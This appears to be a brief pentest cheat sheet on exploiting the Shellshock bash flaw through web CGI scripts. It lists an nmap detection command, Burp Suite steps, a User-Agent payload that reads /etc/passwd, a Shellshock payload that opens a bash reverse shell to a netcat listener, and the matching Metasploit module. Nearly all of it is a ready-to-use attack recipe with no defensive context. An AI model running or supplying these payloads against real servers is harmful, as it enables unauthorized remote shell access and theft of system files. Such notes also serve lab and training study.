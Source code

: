 uses CGI scripts to interact with bash to obtain a reverse shell

Enumerate
=
`nmap -sV ip --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"` - locate the cgi script on the website and pass it in as an arg, checks if vuln

Methodology
=
Manual:
1. use burpsuite to intercept requests as proxy
2. make request for cgi url
3. send to repeater
4. remove user agent information
5. set `user-agent:  () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`
6. send with repeater, check response
7. set up netcat listener
8.  set `user-agent:  () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/localip/localport 0>&1'` - reverse shell listener using shellshock

Metasploit:
`use multi/http/apache_mod_cgi_bash_env_exec` - set target uri to cgi uri
